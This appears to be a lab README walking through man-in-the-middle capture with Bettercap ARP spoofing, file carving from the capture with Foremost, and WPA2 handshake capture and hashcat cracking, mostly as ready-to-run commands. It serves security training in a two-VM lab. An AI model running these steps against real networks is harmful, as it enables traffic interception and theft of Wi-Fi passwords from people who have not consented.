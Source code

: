 # File Carving & WPA2 4-Way Handshake Cracking Documentation

## Tools Used
- **Bettercap** – For MITM attacks and packet capturing.
- **Wireshark** – For analyzing captured packets.
- **Foremost** – For file carving from packet captures.
- **Aircrack-ng** – For WPA2 handshake cracking.
- **Airmon-ng & Airodump-ng** – For monitoring wireless traffic and capturing WPA2 handshakes.

---

## Virtual Machine Setup
We will need **two VMs**:
1. **Attack VM** – Running Kali Linux (or any penetration testing OS) for executing attacks.
2. **Victim VM** – Running a standard OS (e.g., Windows or Linux) to simulate a target system.

Both VMs should be connected using a **network adapter** configured as follows:
- **For Wireless Attacks**: Use an external Wi-Fi adapter that supports monitor mode and packet injection.
- **For Wired Attacks**: Use a **bridged network adapter** to allow communication between VMs and external devices.

---


## Setting Up the Network Adapter

### For Wireless Interfaces (Monitor Mode)
1. Identify your network interface:
   ```bash
   sudo iwconfig
   ```
2. Put the wireless adapter in monitor mode:
   ```bash
   sudo airmon-ng start <interface_name>
   ```
   *Replace `<interface_name>` with the correct network interface (e.g., wlan0).*

### For Wired Interfaces (Bridge Mode)
1. Open your VM settings.
2. Navigate to the Network Preferences section.
3. Change the adapter type to Bridged Mode.
    
---

## Using Bettercap for MITM (with PCAP File)

### Step 1: Start Bettercap
Run Bettercap with the correct network interface:
```bash
sudo bettercap -iface <interface_name>
```
*Replace `<interface_name>` with your network interface, e.g., eth0, wlan0.*

### Step 2: Enable Packet Capture
Inside the Bettercap interactive console, run:
```bash
set net.sniff.output output.pcap
net.sniff on
```

### Step 3: Start ARP Spoofing
```bash
set arp.spoof.targets <target_IP>
arp.spoof on
```
*Replace `<target_IP>` with the victim’s IP address.*

### Step 4: Capture HTTP Requests
If targeting HTTP traffic:
```bash
set http.server.address <your_IP>
set http.server.path /tmp
http.server on
```
Using our edited HTTP, we created a file upload server.

### Step 5: Stop Packet Capture
```bash
net.sniff off
arp.spoof off
```

### Step 6: Exit Bettercap
```bash
exit
```

---

## Analyzing the PCAP File
The captured packets are stored in `output.pcap`. Open it with Wireshark:
```bash
wireshark output.pcap
```

---

## File Carving from PCAP
Use Foremost to extract files:
```bash
sudo foremost -i output.pcap -o extracted_files
```
### Review the Extracted Files
Navigate to the output directory:
```bash
cd extracted_files
```
Check inside directories categorized by file type (e.g., jpg, gif, png, etc.).

---

## WPA2 4-Way Handshake Cracking

Note: Make sure that your VM is in **Bridged Mode**

### 1. Capture the WPA2 Handshake
Use `airodump-ng` to capture the 4-way handshake, which results in a .cap or .pcap file:
```bash
sudo airodump-ng -c <channel> --bssid <router_BSSID> -w handshake_capture wlan0mon
```
The output file will be `handshake_capture.cap`.

### 2. Convert the Handshake for Hashcat
Hashcat requires a converted format (.hccapx or .22000).

#### Option A: Convert to .hccapx
```bash
cap2hccapx handshake_capture.cap handshake_converted.hccapx
```

#### Option B: Convert to .22000
```bash
hcxpcapngtool -o handshake_converted.22000 handshake_capture.cap
```

### 3. Run Hashcat on the Converted File
For an .hccapx file, use mode 2500:
```bash
hashcat -m 2500 handshake_converted.hccapx <path_to_wordlist>
```
For a .22000 file, use mode 22000:
```bash
hashcat -m 22000 handshake_converted.22000 <path_to_wordlist>
```

### 4. Tweak Hashcat Parameters
```bash
hashcat -m 22000 handshake_converted.22000 /usr/share/wordlists/rockyou.txt \
  --force --potfile-path=cracked.pot --status --status-timer=30
```
- `--force`: Bypass some warnings (use with caution).
- `--potfile-path`: Save found passwords.
- `--status`: Show status updates.
- `--status-timer=30`: Update status every 30 seconds.

### 5. Review Cracked Passwords
```bash
hashcat --show -m 22000 handshake_converted.22000
```

### 6. Tips & Notes
- Ensure GPU drivers (NVIDIA, AMD) and OpenCL/CUDA are installed.
- Use large wordlists like `rockyou.txt` for better results.
- Monitor GPU usage with `nvidia-smi` or `radeontop`.
- Ensure you have explicit permission before testing any WPA networks.
